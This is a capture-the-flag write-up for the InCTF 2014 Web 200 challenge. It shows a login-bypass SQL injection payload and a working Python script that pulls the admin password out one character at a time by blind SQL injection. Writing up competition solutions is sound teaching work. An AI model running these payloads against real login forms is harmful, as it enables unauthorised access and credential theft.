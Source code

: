 +++
title="InCTF 2014 - Web 200 Writeup"
date="2014-03-08"
description="A web security writeup for a challenge based on Blind SQL Injection that we solved in InCTF 2014"
author="Nagesh Podilapu"
[taxonomies]
tags=["ctf", "web", "SQLi"]
+++

This is my first CTF writeup.
In this challenge they gave a website like below with a simple yet stylish login form.
As usual first I tried basic sql injection with

![Login page of the given challenge](ro.png)

Then a page with a black background appeared with no text on screen, then I opened the source of that page and found some interesting comments.

```html
<!DOCTYPE html>
<html>
<style>
body{background: #373737 url("../img/bg.png") 0 0 repeat;}
</style>
<body>
<!-- DEBUG : SELECT * FROM login_users where (username='' or 1=1 #' and password='example') -->
```

After looking at that DEBUG comment, I tried injecting below code

```
' or 1=1 ) #
```

Resulting query will look like this

```
SELECT * FROM login_users where (username='' or 1=1 ) # ' and password='example')
```

Yes, It worked well but just a blank page again, so I opened source code and found "Login successfull!" message this time.

```html
<!DOCTYPE html>
<html>
<style>
body{background: #373737 url("../img/bg.png") 0 0 repeat;}
</style>
<body>
<p>Login successful.</p>
</body>
</html>
```

I got success message again when I am using order by 3, so no.of columns is 3. And then I tried different queries to print admin password on that page but no use. At last I found that it's just giving "Login Successful!" on right query and "Invalid Credentials" on a wrong query.

Then sure, it's [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection).

And we have to find the password of user admin. And expected flag format is: **flag{md5_string}**, so our admin password is a 38 length string starting with **flag{** and ends with **}** now we have to get the remaining 32 bit length md5 string. Here is my python script that prints out flag.

```python
import urllib,urllib2
charset=[48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 97, 98, 99, 100, 101, 102]
flag="flag{"
url="http://103.10.24.99/66ee606d5019d75f83836eeb295c6b6f/login.php"
print "[+] Vuln URL: "+url+"\n"
for i in range(6,38):
    for j in charset:
        va={"username":"admin' and ascii(substring((select password from login_users where username='admin'),"+str(i)+",1))="+str(j)+") #","password":"admin"}
        data = urllib.urlencode(va)
        req = urllib2.Request(url, data)
        response = urllib2.urlopen(req)
        html = response.read()
        if "success" in html:
            print "[+] Congrats! Found %d letter of flag and it is : %c \n"%(i-5,chr(j))
            flag+=chr(j)
            break
        else:
            print "[-] Checked %d letter of flag with %c \n"%(i-5,chr(j))
flag+="}"
print "[+] Pwned ! Here is your Flag : %s \n"%(flag)
```

And the Flag is:  **flag{c5ec74ca7304b7eab694ec4545f7e6b3}**

Thanks for reading and thanks to team **bi0s** for making a great CTF and introducing me to different attack vectors.
